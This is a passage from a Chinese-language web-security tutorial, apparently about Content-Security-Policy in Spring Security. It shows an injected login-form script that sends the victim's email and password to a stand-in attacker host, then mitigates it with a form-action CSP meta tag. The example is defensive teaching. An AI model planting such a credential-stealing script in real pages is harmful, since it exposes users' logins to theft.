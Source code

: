 同样，假设我们的表单字段验证不足。用户可以利用这一点并将恶意Javascript代码注入DOM(文档对象模型)：

```html
<span> Session time out. Please login.</span>
<form id="login" action="/login">
    <input type="email" class="form-control" id="email">
    <input type="password" class="form-control" id="password">
    <button type="submit">Login</button>
</form>
<script>
    let form = document.forms.login;
    form.action = "https://youaredoomed.com:9090/collect?u=" + document.getElementById('email').value
            + "&p=" + document.getElementById('password').value;
</script>
```

当点击登录按钮时，注入的Javascript代码会将用户重定向到恶意站点。

当一个毫无戒心的用户提交表单时，他会被重定向到https://youaredoomed.com并暴露他的凭据。

### 3.3 Demo

通常，在会话超时后，服务器会将用户重定向到登录页面以输入他的凭据。但是，注入的恶意代码会将用户重定向到一个非预期的站点以及用户的凭据：

<video src="../assets/csp.mp4"></video>

## 4. Spring Security

在本节中，让我们讨论缓解这些代码注入漏洞的方法。

### 4.1 HTML meta标签

在前面的示例中添加Content-Security-Policy头会阻止将表单提交到恶意服务器。因此，让我们使用<meta\>标签添加此header并检查其行为：

```html

<meta http-equiv="Content-Security-Policy" content="form-action 'self';">
```

添加上述标签可防止浏览器将表单提交到其他源：

<img src="../assets/img_1.png">
